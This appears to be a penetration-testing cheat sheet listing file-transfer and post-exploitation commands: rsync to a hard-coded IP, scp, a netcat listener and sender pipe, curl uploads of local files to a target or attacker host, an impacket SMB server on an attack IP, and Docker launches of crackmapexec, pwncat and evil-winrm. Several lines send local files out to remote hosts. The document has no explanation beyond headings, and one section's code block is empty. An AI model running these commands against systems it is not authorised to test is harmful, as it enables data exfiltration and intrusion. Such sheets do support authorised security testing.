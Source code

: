 ### rsync

```bash
rsync -a /home/user/Downloads/file.txt root@5.182.18.49:/home/Files
rsync -avz /opt/lulz USER@${box_ip}:/dev/shm/
```

### SCP

```
scp -r ./file.txt REMOTE_USER@${box_ip}:dir/file.txt
scp -r REMOTE_USER@${box_ip}:dir/file.txt ./file.txt

scp -r -i id_rsa ./file.txt REMOTE_USER@${box_ip}:dir/file.txt
scp -r -i id_rsa REMOTE_USER@${box_ip}:dir/file.txt ./file.txt
```

### Netcat

On your server (A):
```bash
nc -l -p 1234 -q 1 > something.zip < /dev/null
```

On your "sender client" (B):

```bash
cat something.zip | netcat server.ip.here 1234
```

### Curl

```bash
curl http://${box_ip}/FILENAME -o FILENAME

curl -u USERNAME:PASSWORD http://${box_ip} -o FILENAME

curl ftp://${box_ip}/FILENAME -user USERNAME:PASSWORD -o FILENAME

curl -T FILENAME ${box_ip} -user USERNAME:PASSWORD

curl -F ‘data=@path/to/local/file’ ${box_ip}

curl -F 'img_avatar=@/home/file.txt' http://${box_ip}/upload

curl -F 'fileX=@/path/to/fileX' -F 'fileY=@/path/to/fileY' ... http://${box_ip}/upload

curl -F 'files[]=@/path/to/fileX' -F 'files[]=@/path/to/fileY' ... http://${box_ip}/upload
```

### Chisel

[get chisel here](https://github.com/jpillora/chisel/)
```
```

### SMB server

```bash
sudo python3 ${imp_dir}/smbserver.py -smb2support -username <SHARE_USER> -password <SHARE_PASS> -ip $attack_ip <SHARE_NAME> <SHARE_PATH>
```


### Crackmapexec

```bash
docker run -it --entrypoint=/bin/sh --name crackmapexec -v ~/.cme:/root/.cme byt3bl33d3r/crackmapexec
```

### PWNCat
```bash
docker run -v "./":/work -t pwncat ${box_ip} LPORT
```

### EvilWinRM

```bash
export scripts_dir='/opt/server/ps_scripts/'; export exe_dir='/opt/server/exe/'; docker run --rm -ti --name evil-winrm -v ${scripts_dir}:/ps1_scripts -v ${exe_dir}:/exe_files -v ${pwd}:/data oscarakaelvis/evil-winrm
```
